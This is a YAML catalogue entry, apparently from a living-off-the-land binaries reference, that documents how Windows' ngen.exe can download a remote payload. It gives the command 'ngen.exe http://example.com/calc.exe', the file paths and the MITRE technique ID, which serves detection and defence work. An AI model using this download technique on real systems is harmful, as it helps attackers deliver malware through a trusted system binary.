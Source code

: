 ```yaml
---
Name: Ngen.exe
Description: Microsoft Native Image Generator.
Author: Avihay Eldad
Created: 2024-02-19
Commands:
  - Command: ngen.exe http://example.com/calc.exe
    Description: Downloads payload from remote server using the Microsoft Native Image Generator utility.
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.xxx\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.xxx\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.xxx\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.xxx\ngen.exe
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

